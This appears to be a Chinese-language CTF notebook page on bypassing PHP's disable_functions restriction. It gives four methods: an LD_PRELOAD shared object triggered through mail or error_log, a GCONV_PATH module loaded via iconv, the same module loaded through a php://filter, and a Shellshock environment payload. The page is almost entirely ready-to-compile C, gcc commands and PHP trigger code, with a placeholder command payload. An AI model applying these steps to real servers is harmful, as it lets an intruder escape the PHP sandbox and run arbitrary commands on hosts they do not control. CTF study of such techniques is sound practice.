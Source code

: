 # 主要思路
	- 使用环境变量等方式控制php执行c库中的函数，从而绕过php自带的disable_function安全机制
- # 参考
	- https://www.lxscloud.top/2022/04/15/PHP-Bypass-disable_function/
	- [[CTFWEB/PHP/FFI]]
- # 提示
	- 下面的方式都需要写入文件，实际操作时可以考虑使用[[CTFWEB/PHP/利用FTP进行文件写入]]进行文件写入
- # 方式一
	- 要求
		- 允许函数putenv()和error_log()或mail()且存在可写目录和可以传输文件到靶机
	- 步骤
		- 把这个编译为`exp.so`扔进某个文件夹（例如`/tmp/`）中
			- ```c
			  #include <stdlib.h>
			  #include <stdio.h>
			  
			  int geteuid() {
			  	if(getenv("LD_PRELOAD") != NULL) { 
			  		unsetenv("LD_PRELOAD");
			  		system("ls / > /tmp/t.txt"); // payload在这
			  	} else {
			  		return 0;
			  	}
			  }
			  ```
			- ```shell
			  gcc exp.c -o exp.so -shared -fPIC
			  ```
		- PHP执行
			- ```php
			  <?php 
			  putenv("LD_PRELOAD=/tmp/exp.so");
			  # exp.so在下面这行被调用
			  error_log("",1,"","");
			  # 当然我们还有
			  mb_send_mail("a@localhost","","","","");
			  # 当然我们还有
			  mail("","","","");
			  ?>
			  ```
- # 方式二
  id:: 64f02a3a-0eae-4d6c-8b73-8b34d2a17473
	- 注意
		- 这里复现时有一个坑，就是如果PHP执行没反应需要多执行几次（大概手搓十几次这样）
	- 要求
		- 允许函数putenv()、iconv()和可以传输文件到靶机
	- 步骤
		- 把这个编译了放进目标中（比如说放进`/tmp/exp.so`）
			- ```c
			  #include <stdio.h> 
			  #include <stdlib.h> 
			  
			  void gconv() {
			  }
			  
			  void gconv_init() {  
			  	system("ls / > /tmp/t.txt");
			  }
			  ```
			- ```shell
			  gcc exp.c -o exp.so -shared -fPIC
			  ```
		- 把这个写进同一个文件夹（这里是`/tmp/`）中的`gconv-modules`中
			- ```text
			  module  exp//    INTERNAL    /tmp/exp    2
			  module  INTERNAL   exp//    /tmp/exp    2
			  ```
		- 最后执行这里的php
			- ```php
			  <?php 
			  putenv("GCONV_PATH=/tmp/"); // 当然这里是tmp文件夹
			  iconv("exp", "UTF-8", "");
			  ?>
			  ```
- # 方式三
	- 方式二的变种
	- 要求：允许putenv和使用convert.iconv这个`php://`伪协议的filter
	- 步骤：和方式二相同，只不过执行的PHP变成这个：
		- ```php
		  <?php
		  putenv("GCONV_PATH=/tmp/"); 
		  include('php://filter/read=convert.iconv.exp.utf-8/resource=/proc/self/cmdline');
		  ?>
		  ```
- # 方式四
	- > 未复现
	- 当然是shell shock
		- ```php
		  <?php
		  putenv("PHP_flag=() { :; }; ls / > /tmp/t.txt");
		  error_log("",1,"","");
		  ?>
		  
		  ```